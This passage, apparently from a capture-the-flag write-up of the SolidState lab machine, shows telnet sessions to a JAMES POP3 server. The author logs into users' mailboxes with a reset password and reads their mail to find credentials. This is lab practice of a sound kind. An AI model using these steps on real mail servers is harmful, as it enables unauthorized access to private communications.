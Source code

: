 Now, I'll try use `telnet` to connect to POP3 to check the mails for each user.

```
root@kali# telnet 10.10.10.51 110
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS r00t3d
+OK Welcome john
LIST
+OK 1 743
1 743
```

Use `RETR` to read the mail

```
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

Looks like someone is going to email mindy a temporary password. I'll take a look at mindy's mail to see if that's the case.

```
root@kali# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS r00t3d
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
```
